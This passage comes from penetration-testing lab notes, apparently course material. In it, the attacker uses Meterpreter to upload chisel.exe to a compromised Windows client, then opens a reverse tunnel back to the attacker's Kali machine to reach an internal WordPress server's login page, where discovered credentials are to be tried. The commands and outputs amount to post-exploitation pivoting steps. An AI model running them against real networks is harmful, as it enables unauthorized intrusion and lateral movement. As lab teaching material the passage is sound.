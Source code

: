 Then, we'll transfer the extracted **chisel.exe** binary to CLIENTWK1 by using Meterpreter's _upload_ command
```
msf6 auxiliary(server/socks_proxy) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > upload chisel.exe C:\\Users\\marcus\\chisel.exe
[*] Uploading  : /home/kali/beyond/chisel.exe -> C:\Users\marcus\chisel.exe
[*] Uploaded 7.85 MiB of 7.85 MiB (100.0%): /home/kali/beyond/chisel.exe -> C:\Users\marcus\chisel.exe
[*] Completed  : /home/kali/beyond/chisel.exe -> C:\Users\marcus\chisel.exe
```

Now, we can enter **shell** and utilize Chisel in client mode to connect back to our Kali machine on port 8080
+ We'll create a reverse port forward with the syntax **`R:localport:remotehost:remoteport`**
+ In our case, the remote host and port are 172.16.6.241 and 80. The local port we want to utilize is 80
```
C:\Users\marcus> chisel.exe client 192.168.119.5:8080 R:80:172.16.6.241:80
2022/10/11 07:22:46 client: Connecting to ws://192.168.119.5:8080
2022/10/11 07:22:46 client: Connected (Latency 11.0449ms)
```

Once Chisel connects, we can browse to port 80 on 172.16.6.241 via port 80 on our Kali machine (127.0.0.1) by using Firefox:
![[Pasted image 20240108162741.png]]
+ Above shows us a WordPress instance (indicated by the URL and title of the page) on INTERNALSRV1
+ Let's browse to the dashboard login page for WordPress at **`http://127.0.0.1/wordpress/wp-admin`** and try to log into it with credentials we've discovered so far
+ Once we have entered the URL, Firefox displays an error:
![[Pasted image 20240108162815.png]]

The navigation bar in Firefox shows that we were redirected to **internalsrv1.beyond.com**
+ We can assume that the WordPress instance has the DNS name set as this address instead of the IP address
+ Because our machine doesn't have information about this DNS name, we cannot connect to the page

To be able to fully use the web application, we'll add **internalsrv1.beyond.com** via **127.0.0.1** to **/etc/hosts**
```
kali@kali:~/beyond$ cat /etc/hosts                         
127.0.0.1       localhost
127.0.1.1       kali
...
127.0.0.1    internalsrv1.beyond.com
...
```

Now, let's open the **/wp-admin** page again
![[Pasted image 20240108162851.png]]
+ Above shows that the login page is now displayed correctly
